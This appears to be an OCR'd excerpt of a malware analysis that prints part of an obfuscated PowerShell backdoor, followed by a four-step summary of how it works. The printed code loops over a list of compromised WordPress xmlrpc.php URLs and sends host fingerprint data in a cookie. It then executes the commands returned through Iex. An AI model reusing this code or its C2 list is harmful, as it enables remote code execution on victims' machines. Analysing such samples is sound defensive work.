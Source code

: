 ```ps
 #Performs the request and saves response into variable
 $SMJqM=neW-oBject SyStem.IO.STrEAmreAdEr $MUxGbh.geTreSPonSe().geTReSpoNseSTReAm();
 
 #Performs checks on response and executes further powershell commands received 
 $HSqFL=($SMJqM.REadtoend()) -SplIT $fIZSmsu;If($HSqFL.cOunT -eQ 3){Iex($HSqFL[1] -rEPLACe "^","");}
}
WHiLe(1){
 trY{
 YWSlHGm(@("https://caperacking.co.za/xmlrpc.php","https://colorlib.com/xmlrpc.php","
https://virtualtilt.com/xmlrpc.php","https://bepmina.vn/xmlrpc.php","https://sexmoviesfoundonline.com/xmlrpc.
php","https://oceanprezentow.pl/xmlrpc.php","https://laminaintuasturias.es/xmlrpc.php","https://zeltoday.ru
/xmlrpc.php","https://activ.co.id/xmlrpc.php","https://thewarzonehacker.com/xmlrpc.php") | get-randOM)
 }CatCH{};
 SLEEp -s 20
 }
```

To summarise the functionality of the script above:
1. One of the URLs is randomly selected
2. A cookie header is populated with compressed encoded fingerprint data of the infected machine
3. A HTTPS request with the cookie header is made to the URL
4. Response is used to execute run powershell commands